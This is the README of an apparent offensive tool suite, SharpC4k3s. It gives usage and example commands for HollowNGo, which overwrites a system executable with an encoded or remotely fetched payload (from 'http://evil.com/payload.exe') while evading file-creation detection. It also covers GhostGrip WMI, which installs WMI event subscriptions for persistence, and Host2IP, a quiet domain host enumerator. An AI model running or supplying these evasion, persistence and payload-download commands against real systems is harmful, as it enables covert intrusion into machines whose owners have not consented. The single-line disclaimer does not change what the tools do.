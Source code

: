 <div align="center">
	<img src="https://github.com/MrR4tC4k3/SharpC4k3s/blob/b825632945a7a26b496f8f9cf7cad4e87674cef8/examples/SHARP.png">
</div>
<div align="center">
	Welcome to SharpC4k3s
</div>
<br>

## Tool Suite
- **HollowNGo**
- **GhostGrip WMI**
- **Host2IP**

## HollowNGO
HollowNGo aims to avoid FileCreation Events by reading your payload as a byte array, compressing them, and converting the compressed bytes to base64 to a memorysteam. setting the target file stream length to 0, then the same encoding operation in reverse to write to the target file. There are a few options when running the tool as shown below.

#### Create compressed encoded binary data (This is expected to run on your dev box not the target)
**Usage:** HollowNGo.exe -encode <source.exe> -output <output.txt>
- **Example:** HollowNGo.exe C:\Users\User\Documents\MyEvil.Exe -output EvilB64.txt

#### Via data output from -encode option
**Usage:** HollowNGo.exe -source <base64_content> -target <target.exe>
- **Example:** dotnet inline-execute HollowNGo.exe -sourcelocal <EvilB64.Code> -target C:\Windows\System32\calc.exe

#### Via remote hosted file
**Usage:** UsageHollowNGo.exe -sourceremote <SourceURI> -target <target.exe>
- **Example:** dotnet inline-execute HollowNGo.exe -sourceremote http://evil.com/payload.exe -target C:\Windows\System32\calc.exe
<div align="center">
	<img src="https://github.com/MrR4tC4k3/SharpC4k3s/blob/c674b6dd870ddc8f4c7601b8d9e18f0feec36381/examples/HollowNGo.png">
</div>
<div align="center">
	HollowNGo Havoc example
</div>
<br>

## GhostGrip WMI
GhostGrip WMI creates a WMIEventSubscription for your prefered event for persistence and execution method. Use HollowNGo prior to set up your executable to avoid FileCreation Events.

**Usage:** GhostGrip_WMI.exe -location <path_to_executable> -type <time/logon/eventcode> -execution <executiontype> -randomizename <true/false>
- **Example:** dotnet inline-exeucte GhostGrip_WMI.exe -location C:\Windows\System32\calc.exe -type eventcode -eventcode 4726 -execution direct -randomizename true
- **Example:** dotnet inline-exeucte GhostGrip_WMI.exe -location C:\Windows\System32\calc.exe -type logon -execution invoke-wmimethod -randomizename false
<div align="center">
	<img src="https://github.com/MrR4tC4k3/SharpC4k3s/blob/77242f2d974647427e6df74a15df5de9512e4070/examples/GhostGrip_WMI.png">
</div>
<div align="center">
	GhostGrip WMI Havoc example
</div>
<br>

## Host2IP
Host2IP aims to be a little less noisy than SMB/ICMP scans to find hosts within a domain environment. Host2IP uses LDAP queries to get a list of hostnames, which are then resolved via DNS, achieved via slow/fast mode to control the network traffic rate. If your current process does not have not have the correct domain priviliges you will have to provide credentials.

**Usage:** Host2IP.exe -domain <domain_name> -mode <fast/slow> -auth <true/false> -user <username> -password <password>
- **Example:** dotnet inline-execute Host2IP.exe -domain target.local -mode fast -auth false
- **Example:** dotnet inline-execute Host2IP.exe -domain target.locol -mode slow -auth true -user TheRat -password pass123!
<div align="center">
	<img src="https://github.com/MrR4tC4k3/SharpC4k3s/blob/64cd688e35ab726ded7a11669a85463f3dfbd857/examples/Host2IP.png">
</div>
<div align="center">
	GhostGrip WMI Havoc example
</div>
<br>

### **Disclaimer:** These tools are not to be used for any unauthorized activity :)
